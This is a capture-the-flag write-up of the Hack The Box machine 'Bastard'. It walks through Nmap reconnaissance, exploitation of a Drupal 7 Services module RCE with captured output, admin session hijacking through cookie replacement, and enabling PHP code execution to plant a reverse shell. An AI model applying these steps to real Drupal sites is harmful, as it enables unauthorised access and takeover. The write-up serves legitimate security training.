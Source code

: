 ```yaml
---
layout: post
title: Bastard
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.9
<br>Machine Author: ch4p

**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -sV -O 10.10.10.9

<br>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-20 21:59 EST
<br>Nmap scan report for 10.10.10.9
<br>Host is up (0.15s latency).
<br>Not shown: 997 filtered ports
<br>PORT      STATE SERVICE VERSION
<br><font color="BB69EC">80/tcp</font>    open  http    Microsoft IIS httpd 7.5
<br>|_http-generator: Drupal 7 (http://drupal.org)
<br>| http-methods: 
<br>|_  Potentially risky methods: TRACE
<br>| http-robots.txt: 36 disallowed entries (15 shown)
<br>| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
<br>| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
<br>| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
<br>|_/LICENSE.txt /MAINTAINERS.txt
<br>|_http-server-header: Microsoft-IIS/7.5
<br>|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
<br><font color="BB69EC">135/tcp</font>   open  msrpc   Microsoft Windows RPC
<br><font color="BB69EC">49154/tcp</font> open  msrpc   Microsoft Windows RPC
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Device type: general purpose|phone|specialized
<br>Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|8.1|7|Vista|2012 (92%)
<br>OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 <br>cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 <br>cpe:/o:microsoft:windows_server_2012
<br>Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Server 2008 <br>R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft <br>Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), <br>Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 <br>SP1, or Windows 7 (91%)
<br>No exact OS matches for host (test conditions non-ideal).
<br>Network Distance: 2 hops
<br>Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

<br>TRACEROUTE (using port 80/tcp)
<br>HOP RTT       ADDRESS
<br>1   139.01 ms 10.10.14.1
<br>2   139.18 ms 10.10.10.9

<br>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 86.43 seconds

<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>

<br>**Web**:- Drupal Service is running
![Drupal](https://teckk2.github.io/assets/images/Bastard/1-Bastard.JPG)
<br>and by checking /CHANGELOG.txt which we found in the nmap scan of robots.txt, we can see the version installed of drupal is 7.54
![version](https://teckk2.github.io/assets/images/Bastard/2-Bastard.JPG)
<br>For which there is a public exploit available [Drupal-Services-Module-rce](https://www.ambionics.io/blog/drupal-services-module-rce) or you can copy it from my [Pastebin](https://pastebin.com/VF0UFu3g)
<br>Now after you copy the exploit from the blog then edit the $url and $endpoint_path
![edit](https://teckk2.github.io/assets/images/Bastard/3-Bastard.JPG)
<br>Now before you run the exploit make sure the main drupal login page is open in your browser or it will show you the error **Failed to login with fake password** or if you still see this error even after opening the login page in browser then revert the machine and try again.
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># php exploit.php 
<br>Stored session information in session.json
<br>Stored user information in user.json
<br>Cache contains 7 entries
<br>File written: <font color="53E100">http://10.10.10.9/dixuSOspsOUU.php</font>
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># cat session.json 
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;"session_name": "SESSd873f26fc11f2b7e6e4aa0f6fce59913",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"session_id": "NR8MTD7eFRPPmFJGnxGlgJGHIo00ltSWMRV_TO1Iz0k",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"token": "Kkq8taVZ9H5AOpE6kti6qyA2xkjk110_-wOFCKgvGPY"
<br>}
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># cat user.json 
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;"uid": "1",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"name": "admin",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"mail": "drupal@hackthebox.gr",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"theme": "",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"created": "1489920428",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"access": "1492102672",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"login": 1513922853,
<br>&nbsp;&nbsp;&nbsp;&nbsp;"status": "1",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"timezone": "Europe\/Athens",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"language": "",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"picture": null,
<br>&nbsp;&nbsp;&nbsp;&nbsp;"init": "drupal@hackthebox.gr",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"data": false,
<br>&nbsp;&nbsp;&nbsp;&nbsp;"roles": {
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"2": "authenticated user",
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"3": "administrator"
<br>&nbsp;&nbsp;&nbsp;&nbsp;},
<br>&nbsp;&nbsp;&nbsp;&nbsp;"rdf_mapping": {
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"rdftype": [
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"sioc:UserAccount"
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;],
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"name": {
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"predicates": [
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"foaf:name"
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;]
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;},
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"homepage": {
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"predicates": [
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"foaf:page"
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;],
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"type": "rel"
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}
<br>&nbsp;&nbsp;&nbsp;&nbsp;},
<br>&nbsp;&nbsp;&nbsp;&nbsp;"pass": "$S$DRYKUR0xDeqClnV5W0dnncafeE.Wi4YytNcBmmCtwOjrcH5FJSaE"
<br>}
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># </p>
</div>
</font>
<p>If you get any error like **PHP Fatal error: Uncaught Error: Call to undefine function curl_init()** possibilities are you don't have php-curl installed in your machine so to solve this you just need to downlaod it and restart the apache server and then run the exploit again.
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># apt-get install php-curl
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># systemctl restart apache2</p>
<br>Now after the exploit completed sucessfully it will give use a link where the file has been written and created a new user in drupal and 2 new files (session.json) and (user.json) in your current directory and if you look inside the session.json file you will see (session_ID, name and token) and we will edit and use this to gain admin access on the web.
<br>Now we need to edit this file session.json
<br>The session file is in format:-
<br>-Session_name:<font color="BB69EC">abc</font>
<br>-Session_id:<font color="BB69EC">def</font>
<br>-Token:<font color="BB69EC">xyz</font>
<br>Now we need to edit this like this
<br>-<font color="BB69EC">abc=def;token=xyz</font>
<br>It will look something like this
<font size="1">
<div style="height:150px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># cat session.json 
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;<font color="ffff00">"SESSd873f26fc11f2b7e6e4aa0f6fce59913=NR8MTD7eFRPPmFJGnxGlgJGHIo00ltSWMRV_TO1Iz0k;token=Kkq8taVZ9H5AOpE6kti6qyA2xkjk110_-wOFCKgvGPY"</font>
<br>}
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>
<br>This is the cookie which we will use to get admin access, Now before we proceed make sure to open 3 links :
* The main drupal login page :- <font color="BB69EC">http://10.10.10.9/</font>
* The admin pannel which will show 403 access denied for now :- <font color="BB69EC">http://10.10.10.9/admin</font>
* And the link which the php exploit gave us :- <font color="BB69EC">http://10.10.10.9/dixuSOspsOUU.php</font>
<br>Now capture the request of **/admin** page in burp and replace the cookie with our cookies.
![cookie-1](https://teckk2.github.io/assets/images/Bastard/4-Bastard.JPG)
![cookie-2](https://teckk2.github.io/assets/images/Bastard/5-Bastard.JPG)
<br>And forward the request and we will get the admin access
![Admin](https://teckk2.github.io/assets/images/Bastard/6-Bastard.JPG)
<br>Another simple way is to use cookie manager and get admin access easily.
<br>But for now we have only access to this page, and if you open another page it will still show you **403 error** because the cookie is set for this page only, and to set the cookie for all pages we need to set it manually.
<br>Press **F12**, then click on console and define the cookie:-
<br>_document.cookie = "SESSd873f26fc...........6kti6qyA2xkjk110_-wOFCKgvGPY"_
![cookie-3](https://teckk2.github.io/assets/images/Bastard/7-Bastard.JPG)
<br>The cookie has been set, now we can move around to other pages.
<br>First click on **Modules** in the main toolbar of the page adb find _**PHP filter**_ and check the box and save the configuration.
![php filter](https://teckk2.github.io/assets/images/Bastard/9-Bastard.JPG)
<br>Click on the **Add content** tab below the **Dashboard** on the upper left corner of the page and insided it click on **> Basic Pages**
![content](https://teckk2.github.io/assets/images/Bastard/8-Bastard.JPG)
<br>Now in there we can put our php reverse shell wither you can create your own reverse shell using msfvenom or you can use a standalone [php reverse shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell).
<br>And after pasting the php reverse shell make sure to change the **Text format** to **PHP code** and save it.
![format](https://teckk2.github.io/assets/images/Bastard/11-bastard.JPG)
<br>After saving the file click on **Find content** and there we can see our file.
![php file](https://teckk2.github.io/assets/images/Bastard/10-Bastard.JPG)
<br>Now open up the listner and after that open the file in new tab to get the reverse shell.

